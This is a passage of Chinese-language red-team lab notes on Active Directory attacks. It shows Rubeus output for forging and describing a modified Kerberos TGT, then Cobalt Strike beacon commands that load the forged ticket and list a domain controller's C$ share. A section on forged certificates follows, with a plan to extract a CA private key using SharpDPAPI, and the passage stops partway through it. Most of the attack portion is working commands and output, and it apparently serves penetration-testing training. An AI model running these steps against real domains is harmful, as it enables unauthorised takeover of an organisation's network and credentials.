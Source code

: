       doIFgz [...snip...] MuSU8=

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

doIFYj [...snip...] MuSU8=
```

使用Rubeus的```describe```命令查看tgt细节
```
C:\>C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe describe /ticket:doIFYj[...snip...]MuSU8=

[*] Action: Describe Ticket

  ServiceName              :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  7/7/2022 8:41:46 AM
  EndTime                  :  7/7/2022 6:41:46 PM
  RenewTill                :  1/1/1970 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  jp4k3G5LvXpIl3cuAnTtgLuxOWkPJIUjOEZB5wrHdVw=
```

把tgt导入session
```
beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\nlamb.kirbi

beacon> ls \\dc-2\c$
[*] Listing: \\dc-2\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
```



# Forged Certificates

> Gaining local admin access to a CA allows an attacker to extract the CA private key, which can be used to sign a forged certificate (think of this like the krbtgt hash being able to sign a forged TGT)
获得对 CA 的本地管理员访问权限允许攻击者提取 CA 私钥，该私钥可用于签署伪造的证书（将其想象为 krbtgt 哈希能够签署伪造的 TGT）

使用工具[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)析出证书秘钥
```
beacon> run hostname
dc-1

